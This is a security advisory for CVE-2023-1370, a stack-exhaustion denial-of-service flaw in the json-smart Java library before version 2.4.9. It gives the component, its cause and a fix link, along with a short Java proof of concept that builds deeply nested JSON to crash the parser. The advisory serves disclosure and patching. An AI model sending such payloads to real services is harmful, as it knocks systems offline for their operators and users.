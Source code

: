 ```yaml
---
description: CVE-2023-1370 High severity. Stack exhaustion in json-smart leads to denial of service when parsing malformed JSON
title: json-smart Stack exhaustion DoS
date_published: "2023-03-13"
last_updated: "2023-03-13"
xray_id: XRAY-427633
vul_id: CVE-2023-1370
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Stack exhaustion in json-smart leads to denial of service when parsing malformed JSON

## Component

net.minidev:json-smart

## Affected versions

(,2.4.9)

## Description

[Json-smart](https://netplex.github.io/json-smart/) is a performance focused, JSON processor lib.
When reaching a `[` or `{` character in the JSON input, the code parses an array or an object respectively.
It was discovered that the code does not have any limit to the nesting of such arrays or objects. Since the parsing of nested arrays and objects is done recursively, nesting too many of them can cause a stack exhaustion (stack overflow) and crash the software.

## PoC

The following code will raise a `StackOverflowError`:
```java
StringBuilder s = new StringBuilder();
for (int i = 0; i < 10000 ; i++) {
  s.append("{\"a\":");
}
s.append("1");
for (int i = 0; i < 10000 ; i++) {
  s.append("}");
}
JSONParser p = new JSONParser(JSONParser.MODE_JSON_SIMPLE);
p.parse(s.toString());
```


## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Fix commit](https://github.com/netplex/json-smart-v2/commit/5b3205d051952d3100aa0db1535f6ba6226bd87a)

